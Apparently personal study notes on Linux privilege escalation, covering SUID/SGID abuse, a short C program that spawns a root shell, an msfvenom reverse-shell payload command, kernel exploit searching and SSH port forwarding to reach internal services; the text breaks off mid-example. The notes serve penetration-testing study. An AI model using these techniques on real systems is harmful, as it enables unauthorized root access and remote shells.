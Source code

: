 ##### special permissions
setuid SUID bit: when set, files get executed with the privileges of the file owner
setgid SGID bit: when this is set on a file, the file will get executed with the privileges of the file group
when set on a directory files created within that directory will inherit the group of the directory itself
effective id: used by most processes to verify a user, real id is only typically used in /etc/passwd (use command "id" for examples, 
```
cat /prox/$$/status | grep "[UG]id" for processes)
```

##### can run executables as root
if SUID is set for /bin/(ba)sh can copy file, rename, and execute with -p

##### custom executable
if a root process executes another process which you can control you can augment process to spawn root shell
example in C:
```
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
and compile using gcc -o NAME FILENAME.C
msfvenom can also be used to spawn rev shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST= LPORT= =f elf shell.elf
```

# tools
linux smart enumeration (lse.sh): bash script

# kernel
usually a last resort as they can be unstable or crash machine 
search kernel with uname -a
searchsploit with kernel version
```
# searchsploit linux kernel 2.6.32 priv esc
```
or better yet, linux exploit suggester
```
# ./linux_exploit_suggester2 -k 2.6.32
```

# service exploits
#### enumerate service
- if vulnterable services are running as root explioiting could lead to priv esc
`$ ps aux | grep "^root"`
- enumerate versions of any programs found
`$<program> --version (-v)`
debian:
`$ dpkg -l | grep <program>`
rpm package manager (redhat):
`$ rpm -qa | grep <program>`

# port forwarding
- possible for root process to be bound to an internal port
- if you cannot exploit locall on target machine it may be possible to forward using ssh to localhost
` $ ssh -R <LOCAL_PORT>:127.0.0.1:<SERVICE_PORT> <USERNAME>@<LOCAL_MACHINE>`

###### example with mysql
on target:
`$ netstat -nl`
`tcp  0  0  127.0.0.1:3306  0.0.0.0:*  LISTEN`
`$ ssh -R 9001:127.0.0.1:3306 dials@192.168.0.129`
on local:


